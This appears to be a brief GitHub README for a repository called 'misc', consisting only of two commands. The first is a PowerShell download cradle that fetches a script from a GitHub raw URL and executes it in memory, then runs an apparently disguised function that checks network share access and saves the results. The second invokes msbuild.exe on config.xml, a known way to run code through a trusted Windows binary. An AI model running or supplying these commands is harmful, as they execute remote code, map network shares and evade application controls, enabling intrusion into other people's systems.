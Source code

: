 # misc

IEX (New-Object Net.Webclient).downloadstring('https://github.com/brethbwaite/misc/raw/master/ConfigReader.ps1');Invoke-Formatter -Threads 10 -CheckShareAccess -Verbose -ExcludeStandard | Out-File -Encoding ascii is.txt


C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe config.xml
